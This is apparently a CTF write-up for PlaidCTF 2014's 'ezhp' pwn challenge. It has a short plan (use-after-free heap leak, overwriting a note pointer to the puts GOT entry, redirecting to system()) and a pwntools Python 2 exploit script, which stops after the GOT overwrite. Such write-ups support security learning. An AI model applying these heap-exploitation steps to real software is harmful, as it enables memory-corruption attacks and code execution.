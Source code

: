 ```yaml
---
layout: post
title: PlaidCTF 2014 - ezhp (pwn200)
---
```


Exploiting fastbins. Firstly, a UAF leaks the heap base address. Once we know the base, we can overwrite the pointer to a note
and then read off the memory referenced by that pointer. So, point it to the got_entry of puts. After leaking got_entry,
calculate system() offset and finally create a note with string ``` sh\x00\x00 ``` and then read that note.

Coded in python.

```
#!/usr/bin/python
from pwn import *

p = process("./ezhp")
raw_input()

def conv(inp):
	ret = inp[6:8]
	ret += inp[4:6]
	ret += inp[2:4]
	ret += inp[0:2]
	ret = int(ret,16)
	return ret

def add_note(size):
	p.sendline("1")
	p.sendline(str(size))
	print p.recv()

def remove_note(idx):
	p.sendline("2")
	p.sendline(str(idx))
	print p.recv()

def edit_note(idx,size,data):
	p.sendline("3")
	p.sendline(str(idx))
	p.sendline(str(size))
	p.sendline(data)
	print p.recv()

def print_note(idx):
	p.sendline("4")
	p.sendline(str(idx))
	a = p.recv()
	leak = a.split()
	leak = leak[5]
	leak = leak[28:]
	leak = leak.encode("hex")
	final_leak = conv(leak)
	return final_leak

add_note(20)
add_note(20)

'''LEAK HEAP'''

payload = "\xc0\xc0\xc0\xc0" + "A"*24
#payload += p32(0xdeadbeef)

edit_note(0,28,payload)
heap_addr = print_note(0)
heap_base = heap_addr - 0x54
print heap_base

put_got = 0x0804a010
payload += p32(heap_base+0x20)
payload += p32(put_got-0x4)
edit_note(0,36,payload)
p.interactive() 
```
